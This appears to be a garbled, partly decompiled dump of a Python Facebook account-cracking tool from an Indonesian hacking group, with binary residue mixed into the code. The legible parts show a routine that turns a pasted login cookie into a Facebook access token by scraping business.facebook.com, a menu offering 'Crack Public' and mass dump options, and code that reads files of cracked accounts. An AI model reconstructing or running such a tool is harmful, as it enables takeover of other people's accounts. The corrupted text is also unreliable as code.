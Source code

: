 login_lagi334�
exceptions�ConnectionError�mark�solr   �exit�IOError)�token�cokZsyZsy2Zsy3�liZlorL   rL   rM   rd   �   s(   
��rd   c                  C   s>  zst �d� t�  ttd�� t�ttt	t
tg�} tdt	� dt� d| � d��}t
jddd	d
ddd
dddd�	d|id�}t�d|j�}tdd��|�d��}tdd��|�}tdt� dt	� dt� dt	� dt� d�� t�d� t�  W d S  ty� } zt �d� t �d� tdtttttf � t�  W Y d }~d S d }~ww ) Nra   u�   	  GROUP NAME>: [red]꧁👹(M͓̽e͓̽N͓̽t͓̽a͓̽l͓̽✷͓̽G͓̽a͓̽N͓̽g͓̽✷͓̽ C͓̽C͓̽C͓̽5͓̽)👹꧂[purple] z  [0;92m[Tutul�]z Login Cookies :r   z0https://business.facebook.com/business_locationszrMozilla/5.0 (Macintosh; Intel Mac OS X 12_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Safari/605.1.15zhttps://www.facebook.com/zbusiness.facebook.comzhttps://business.facebook.comrO   �#id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7�	max-age=0z�text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8ztext/html; charset=utf-8)	�
user-agent�refererZhost�origin�upgrade-insecure-requests�accept-language�
cache-control�accept�content-typeri   )�headersrk   z	(EAAG\w+)rg   r
   r   rh   z  �[�Tutulu-    LOGIN Done.........Ran The Script Again 👈zrm -f .token.txtzrm -f .cok.txtz5  %s[%sTutul%s]%s Please Invalid Fresh Cookies Need%s)rb   rc   rf   �cetak�nel�random�choice�m�k�h�br^   �inputrB   rC   rE   �searchrD   r=   rH   �groupr   r\   r]   r{   �	Exception�x)�asuri   �dataZ
find_tokenZkenr~   r_   rL   rL   rM   rv   �   s&   
(2

��rv   c                 C   sR  zt dd��� }t dd��� }W n ty%   td� t�d� t�  Y nw t�d� t	�  t
�d�j}t
t� d�t|� � t
t� d	|� �� ttd
�� td� ttd�� td
�}|dv ret�  d S |dv rnt�  d S |dv rwt�  d S |dv r�t�  d S |dv r�t�  d S |dv r�t�d� t�d� td� t�  d S td� t�  d S )Nrg   r   rh   u   [Ã—] Cookies Kadaluarsa �   ra   zhttps://api.ipify.orgu   [√] Your ID  : u   [√] Your IP  : uM   	[bold cyan]👉 Hello Guys💔 ToOL iS Free Enjoy Everyone 👈 [/bold cyan]� uI   [bold green][√] [1] Crack Public
[√] [00]Logout (Cookie) [bold green]z
S[0;93melect Menu: �rO   )rP   )rQ   )rR   )rS   )�00zrm -rf .token.txtzrm -rf .cookie.txtu   Cookie Logout+Done✅ zPilih Yang Bener Asu )r=   r>   r|   r   r\   r]   rv   rb   rc   rf   rB   rC   rD   r`   r^   rG   r�   r�   r�   r�   �dump_massalZ
dump_follower�error�
crack_file�resultr{   re   )Zmy_nameZmy_idr}   r~   ZipZ_____cowok__pink_____rL   rL   rM   rt   �   sD   

�









rt   c                   C   s&   t t� dt� �� t�d� t�  d S )Nz!Maaf Fitur Ini Masih Di Perbaiki r   )r   r�   r^   r\   r]   re   rL   rL   rL   rM   r�   �   s   

r�   c                  C   s�  t d� t d� t d� td�} | dv �r*zt�d�}W n ty1   t d� t�d� t�  Y nw t|�d	krFt d
� t�d� t�  d S d	}i }|D ]o}zt	d| d
��
� }W n   Y qL|d7 }|dk r�dt|� }|�t|�t|�i� |�|t|�i� t d| d | d tt|�� d t
 � qL|�t|�t|�i� t dt|� d | d tt|�� d t